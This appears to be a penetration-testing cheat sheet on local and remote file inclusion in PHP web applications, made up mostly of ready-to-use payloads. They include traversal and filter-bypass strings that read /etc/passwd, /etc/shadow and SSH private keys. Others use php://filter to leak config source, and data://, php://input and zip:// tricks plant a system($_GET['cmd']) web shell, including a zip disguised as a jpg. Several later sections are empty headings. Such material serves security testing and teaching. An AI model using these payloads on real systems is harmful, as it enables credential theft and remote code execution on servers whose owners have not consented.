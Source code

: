 # X - Local & Remote File Inclusion [LFI/RFI]

The File Inclusion vulnerability allows for the include of a file locally
present on the server or remotely hosted on a webserver, usually exploiting a
"dynamic file inclusion" mechanisms implemented in the target application.  

This issue is caused when an application builds a path to executable code using
an attacker-controlled variable in a way that allows the attacker to control
which file is executed at run time. The vulnerability occurs due to the use of
user-supplied input without proper validation.

A file include vulnerability is distinct from a generic Directory Traversal
Attack, in that directory traversal is a way of gaining unauthorized file
system access, and a file inclusion vulnerability subverts how an application
loads code for execution.

### File Inclusion vulnerability detection

In black box testing, look for scripts which take filenames as parameters,
such as the following examples:

```
http://vulnerable_host/preview.php?file=example.html
http://vulnerable_host/?op=home
```

Try to access freely accessible files, such as:

```
# Linux
/etc/passwd

# Windows
WINDOWS\System32\drivers\etc\hosts
```

### File access

###### Basic

Typical proof-of-concept for basic LFI would be:

```
# Linux
?file=../../../../../../../../../../etc/passwd

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts
```

###### Files of interest

The following Linux files can be of interest:

```
# System information
/etc/issue

# System users account information
/etc/passwd

# System users account hashed password
/etc/shadow

# System groups information
/etc/group

/home/<USERNAME>/.ssh/id_rsa
/root/.ssh/id_rsa
/home/<USERNAME>/.ssh/authorized_keys
/root/.ssh/authorized_keys
```

###### Null Byte

In some cases, the server will will include ".php” at the end of the requested
file.
Such mechanisms can be bypassed using the line terminator char *null byte*:

```
# Linux
?file=../../../../../../../../../../etc/passwd%00

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts%00
```

###### Double encoding

Encoding parameters twice in hexadecimal format can be leveraged to bypass
security controls such as blacklist filters.  
For example, the '.' (*dot*) character represent %2E in hexadecimal
representation. When the % symbol is encoded again, its representation in
hexadecimal code is %25. The result from the double encoding process is %252E.

```
# Linux
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Windows
?file=%252e%252e%255c%252e%252e%255c%252e%252e%255cWINDOWS%255cSystem32%255cdrivers%255cetc%255chosts
```

###### Filter bypass
Some blacklist filter may be implemented and restrict the usage of "../".  
Those kind of filter may be passed using the following payloads:

```
# Linux
?file=..././..././..././etc/passwd
?file=....//....//etc/passwd
?file=..///////..////..//////etc/passwd

# Windows
?file=....\\....\\....\\....\\....\\....\\WINDOWS\System32\drivers\etc\hosts%00
?file=..\\\\\\..\\\\\\..\\\\\\..\\\\\\..\\\\\\WINDOWS\System32\drivers\etc\hosts%00
```

###### PHP wrappers

**php://filter**  
This PHP wrapper can be used to access the source code of the page:

```
# Base64 encoding
?page=php://filter/convert.base64-encode/resource=config.php
?page=php://filter/convert.base64-encode/resource=config.php%00

# rot13 encoding
?page=php://filter/read=string.rot13/resource=config.php
?page=php://filter/read=string.rot13/resource=config.php%00
```

### RCE

###### Remote Inclusion

###### File upload

###### PHP wrappers

**data**  
The PHP *data://* wrapper allows for the injection and execution of PHP code
given in parameter:

```
# <?php phpinfo(); ?>
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B

# <?php system($_GET['cmd']); ?>
?page=data://text/plain;base64,PD8gcGhwIHN5c3RlbSgkX0dFVFsnY21kJ10pOyA%2fPg%3d%3d

# XSS (alert(1))
?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

**expect**  
The PHP *expect://* wrapper allows execution of system commands but is not
enabled by default.

```
php?page=expect://whoami
```

**input**  
The PHP *input://* wrapper allows for the injection and execution of PHP code
given in the POST request body:

```
POST .../?page=php://input&cmd=whoami
...
<?php system($_GET['cmd']); ?>
```

**zip / phar**  
The *zip://* and *phar://* wrappers can be used to achive code execution if a
zip or phar archive can be upload to the server:

```
# <pre><?php system($_GET['cmd']); ?></pre>
echo "<pre><?php system(\$_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
# As the file extension does not matter, a file with a jpg extension can be uploaded
mv payload.zip shell.jpg;    

# zip://<PATH_TO_UPLOADED_FILE>%23<FILE_INSIDE_ZIP>&cmd=<CMD>
?page=zip://shell.jpg%23payload&cmd=whoami
?page=zip://shell.jpg%23payload.php
```

###### Log files contamination

###### PHP sessions

###### /proc/self/

###### Kadimus
